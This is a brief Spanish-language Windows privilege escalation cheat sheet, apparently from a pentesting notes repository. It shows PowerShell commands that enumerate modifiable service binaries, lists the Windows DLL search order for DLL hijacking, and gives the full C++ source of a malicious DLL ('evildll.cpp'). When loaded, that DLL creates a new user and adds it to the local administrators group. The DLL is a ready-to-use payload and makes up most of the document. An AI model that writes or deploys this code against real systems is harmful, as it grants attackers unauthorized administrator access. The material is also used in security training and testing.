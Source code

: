 ###### Enumeración de propiedades de ejecución del servicio

```powershell
$ModifiableFiles = echo 'C:\PATH\TO\BINARY\<BINARY>.exe' | Get-ModifiablePath -Literal
$ModifiableFiles
$ModifiableFiles = echo 'C:\PATH\TO\BINARY\<BINARY>.exe argument' | Get-ModifiablePath -Literal
$ModifiableFiles
$ModifiableFiles = echo 'C:\PATH\TO\BINARY\<BINARY>.exe argument -conf=C:\temp\path' | Get-ModifiablePath -Literal
$ModifiableFiles
```
##### DLL Hijacking

###### Orden de búsqueda estándar

El orden de búsqueda lo define Microsoft y determina que inspeccionar primero al buscar una DLL. De forma predeterminada, todos las versiones actuales de Windows tienen habilitada el modo de busqueda segurda de DLL.

1. El directorio desde el que se cargó la aplicación.
2. El directorio del sistema.
3. El directorio del sistema de 16 bits.
4. El directorio de Windows.
5. El directorio actual.
6. Los directorios que aparecen enumerados en la variable de entorno PATH.

###### evildll.cpp
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Manejar el módulo DLL
DWORD ul_reason_for_call,// Motivo de la llamada a la función
LPVOID lpReserved ) // Reservado
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // Un proceso está cargando la DLL.
        int i;
        i = system ("net user <USERNAME> <PASSWORD> /add");
        i = system ("net localgroup administrators <USERNAME> /add");
        break;
        case DLL_THREAD_ATTACH: // Un proceso está creando un nuevo hilo.
        break;
        case DLL_THREAD_DETACH: // Un hilo termina normalmente.
        break;
        case DLL_PROCESS_DETACH: // Un proceso descarga la DLL.
        break;
    }
    return TRUE;
}
```
